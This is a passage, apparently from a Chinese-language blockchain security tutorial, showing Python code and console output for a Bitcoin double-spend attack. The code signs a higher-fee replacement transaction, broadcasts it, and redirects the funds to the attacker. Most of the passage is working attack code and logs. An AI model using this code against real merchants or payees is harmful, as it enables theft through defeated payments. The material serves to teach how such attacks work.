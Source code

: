 ```
        unspent = unspent[:-1] 

        print('Adding new input %s:%d with value %s BTC' % \
         (b2lx(new_outpoint.hash), new_outpoint.n,
         str_money_value(new_amount))) 

        new_txin = CMutableTxIn(new_outpoint, nSequence=tx2_nSequence) 
        tx.vin.append(new_txin) 

        value_in += new_amount 
        change_txout.nValue += new_amount 
        value_out += new_amount 

        r = rpc.signrawtransaction(tx) 
        assert(r['complete']) 
        tx.vin[-1].scriptSig = r['tx'].vin[-1].scriptSig 
```

一旦所有的交易输入被添加到交易中，交易被签名并被广播到网络:

```
r = rpc.signrawtransaction(tx) 
assert(r['complete']) 
tx = r['tx'] 

print('Double-spend raw transaction %s' % b2x(tx.serialize())) 
print('Double-spend raw transaction size: %.3f KB, fees: %s, %s BTC/KB' % \ 
            (len(tx.serialize()) / 1000,
              str_money_value(value_in-value_out),
              str_money_value((value_in-value_out) / len(tx.serialize()) * 1000))) 

txid = rpc.sendrawtransaction(tx) 
print('Sent double-spend txid: %s' % b2lx(txid)) 
```

为双重消费创建的交易将由一个发送给攻击者的交易输出组成。由于交易费用较高，此交易将取代之前创建的交易。两个事务的原始事务和事务 ID 显示在以下输出中:

```
Adding new input 727ae80da7fc81db0304af0324907cb28d32666a6cc8a5813021ec8350a8e05f:0 
with value 0.799808 BTC 
Payment raw transaction 
01000000015fe0a85083ec213081a5c86c6a66328db27c902403af0403db81fca70de87... 
Payment raw transaction size: 0.225 KB, fees: 0.00000249, 0.00001106 BTC/KB 
Sent payment with txid: f52961ddb5881c4f5a10ca3625c978997ed46dd03da0787acb8f26e36e5e686f 

Waiting for 2 seconds before double spending 
Double-spend raw transaction 
01000000015fe0a85083ec213081a5c86c6a66328db27c902403af0403db81fca70de87... 
Double-spend raw transaction size: 0.191 KB, fees: 0.000191, 
0.00099479 BTC/KB 
Sent double-spend txid: 
8660fc74668ea2e1fe32d2381c8f6b2512e4418677b63cecab8d7f66b5a162a4 
```
